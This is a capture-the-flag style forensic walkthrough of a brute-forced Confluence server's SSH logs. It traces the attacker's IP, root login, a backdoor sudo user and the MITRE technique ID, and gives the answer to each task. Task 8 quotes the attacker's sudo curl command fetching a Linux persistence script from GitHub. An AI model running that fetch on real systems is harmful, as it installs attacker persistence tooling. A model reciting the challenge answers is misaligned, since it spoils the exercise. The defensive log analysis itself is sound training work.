* **Machine Author(s):** Cyberjunkie
* **Difficulty:** Very Easy

## Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Artifacts Provided

* Brutus.zip (zip file), sha256: `dd7742375a19b6ccc4323058224460a5220c43d4e9f7565b653bd369b8c46b2d`

## Initial Analysis

After unzipping the provided file, we obtain three artifacts:

* `auth.log` - Linux authentication logs
* `utmp.py` - Some Python code
* `wtmp` - WTMP output

### auth.log

The `auth.log` file is a centralized register of all authentication activities in Linux, including successful logins, failed attempts, `sudo` usage, and user management. It is essential for security monitoring brute-force attacks, SSH sessions, and unauthorized access.

#### Fields in auth.log



The key fields in `auth.log` include:

* **Date and Time (Timestamp):** When the event occurred (e.g., `Mar 6 06:41:01`).
* **Hostname:** The name of the machine where the event occurred.
* **Process/Service (Tag):** The program that generated the log, usually between brackets (e.g., `sshd`, `sudo`, `cron`, or `pam_unix`).
* **PID (Process ID):** The numeric identification of the process (e.g., `sshd[1234]`).
* **User:** The username involved in the event.
* **Authentication Status:** Details whether the authentication attempt was successful or failed.
* **IP Address/Hostname:** For remote connections, the IP address or the hostname of the client attempting to connect.
* **Message (Content):** A detailed description of the event.

An example entry could be:

```bash
Mar 6 06:41:01 server sshd[1234]: Accepted password for root from IP port 5678 ssh2
```

### wtmp

The `wtmp` file is a Linux binary log file that registers all login history, logouts, reinitializations, and shutdowns of the system. It tracks who, when, and where is logged in. Because it is a binary file, it cannot be read by text editors, demanding other tools to read the file.

#### Fields in wtmp



Since `wtmp` is a binary file, we can use tools like `last` to read the file. The key fields in `wtmp` (based on `utmp` structure) include:

* **`ut_type`:** Type of login (e.g., `USER_PROCESS`, `BOOT_TIME`, `SHUTDOWN_TIME`).
* **`ut_pid`:** Process ID of the login process.
* **`ut_line`:** Device name (tty).
* **`ut_id`:** ID of the inittab slot (unique identifier of the session).
* **`ut_user`:** Username.
* **`ut_host`:** Remote hostname or IP address for remote logins.
* **`ut_tv` / `ut_time`:** Timestamp (time the entry was made).

### utmp.py



When we open the `utmp.py` file in a text editor, in the first lines we can see that this is a simple utmp parser. When we run the code without any argument, we receive:



So, when we run it with the correct arguments, we receive a readable file that can be opened with our favorite text editor.



### Fields in utmp.py output

The key output fields of `utmp.py` are:

* **Type:** Type of record.
* **PID:** The process ID related to the event.
* **Line:** The device name.
* **ID:** The unique identifier of the session.
* **User:** The username associated with the event.
* **Host:** The remote hostname or IP address for remote logins.
* **Exit:** The exit status of a session.
* **Session:** The session ID.
* **Sec:** The timestamp of the event (in the system timezone).
* **Addr:** Additional address information.

## Questions

### Task 1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

In the `auth.log` file, we can see a brute force attack with repeated occurrences of "Invalid user" and "Failed password" entries within a short period of time.

To see the occurrences of "Invalid user" and "Failed password" in `auth.log`, we can use:

```bash
grep -e "Invalid user" -e "Failed password" auth.log
```



We can see there are numerous attempts from the IP address `65.2.161.68` in a short period of time. In general, when we see numerous attempts in a short period of time, this could indicate a brute force attack.

**Answer:** `65.2.161.68`.

### Task 2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

In the `auth.log` file, we can see when the attacker gained access to an account when we see an "Accepted password" keyword.

To see the occurrences of "Accepted password" in `auth.log`, we can use:

```bash
grep -e "Accepted password" auth.log
```



We can see that the attacker gained access to the root account using an SSH connection.

**Answer:** `root`.

### Task 3: Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact

Unlike `auth.log` which records authentication events, `wtmp` tracks when interactive terminal sessions are created and assigned to users. We need to parse the binary `wtmp` file and search for entries related to the attacker's IP address.

First, parse the `wtmp` file using the utmp.py script:

```bash
python3 utmp.py -o wtmp.out wtmp
```

Then, search for the attacker's IP address in the output:

```bash
grep -e "65.2.161.68" wtmp.out
```


We can see the timestamp when the attacker logged in manually and established a terminal session: "2024-03-06 06:32:45".

**Answer:** `2024-03-06 06:32:45`.

### Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Because a session number is assigned immediately after the password is accepted, we will return to using the `auth.log` file to see the session number related to SSH root login.

We can see the number assigned by searching for sessions with `root` between '2024-03-06 06:32:45' in the `auth.log`:

```bash
grep -e "root" auth.log
```



We can see above that the number assigned for the session is '37'.

**Answer:** `37`.

### Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

To see the new privileged user added to the system, we can search for the `useradd` and `usermod` keywords. The `useradd` is used to create a new user or update default new user information, and `usermod` is used to modify a user account (in this case, used to give higher privileges by adding the new user to the `sudo` group).

```bash
grep -e "useradd" -e "usermod" auth.log
```



We can see the new user 'cyberjunkie' was created and has been added to the `sudo` group.

**Answer:** `cyberjunkie`

### Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

For this task, we need to search the [ATT&CK Matrix for Enterprise](https://attack.mitre.org/matrices/enterprise/) to locate the Persistence technique ID related to the attack.


In the 'Persistence' tab, we can search for 'Create Account' to see the related sub-techniques:



Because we know that a local account was created, we know the ID is `T1136.001`.

**Answer:** `T1136.001`.

### Task 7: What time did the attacker's first SSH session end according to auth.log?

We know the SSH session ID used by the attacker is '37', so we need to search for the session ID in the `auth.log`:

```bash
grep -e "session 37" auth.log
```


In the image above, we can see that the session ends at "Mar  6 06:37:24" or "2024-03-06 06:37:24".

**Answer:** `2024-03-06 06:37:24`

### Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

In the `auth.log`, we search for the new privileged user actions:

```bash
cat auth.log | grep -e "cyberjunkie" | grep -e "sudo"
```



We can see that the attacker used the command `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` to download a script from a GitHub repository using `sudo`.

**Answer:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.
